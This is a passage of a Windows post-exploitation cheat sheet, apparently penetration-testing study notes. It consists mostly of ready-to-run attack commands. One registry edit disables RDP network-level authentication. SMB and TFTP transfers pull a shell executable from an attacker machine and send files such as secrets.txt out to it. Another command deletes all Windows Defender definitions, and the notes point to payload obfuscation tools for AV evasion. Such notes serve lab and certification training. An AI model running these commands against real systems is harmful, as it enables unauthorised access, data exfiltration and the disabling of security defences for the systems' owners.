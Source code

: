     reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f


## Transferring Files
 [Data Exfiltration Techniques](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/)    
 [Reference - Exfil Files from Windows Manually](https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/)  
 
     sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .                         #only on a trusted network (no password)   
     sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username USER -password PASS        
     net use \\IP\share /USER:USER PASS    
     copy \\10.6.85.85\kali\shell.exe C:\PrivEsc\shell.exe               #download from kali   
     copy C:\File \\[attack ip]\shareName\File                           #upload to kali  
     
### Old Boxes (Windows XP)  
TFTP usually enabled 
metasploit tfp server module on Kali

    tftp -i 192.168.119.10 PUT secrets.txt
     
## Remote Scripts  
[lsassy](https://github.com/PowerShellMafia/PowerSploit): script to extract creds remotely using impacket  

 ## AV Evasion  
 ### Check for AV  
     sc query windefend
     "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All               #Delete all rules of Defender (useful for machines without internet access)   
 ### Obfuscate Payloads
Use wrapper files to call static executables (such as nc) 
[Chameleon](https://github.com/klezVirus/chameleon): Powershell script obfuscator  

     
 ____
 
# Resources
## Cheat Sheets and Guides 
https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts  
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/   
https://securism.wordpress.com/oscp-notes-privilege-escalation-windows/ 

## Learn More
https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/      
https://github.com/frizb/Windows-Privilege-Escalation    
https://toshellandback.com/2015/11/24/ms-priv-esc/

  
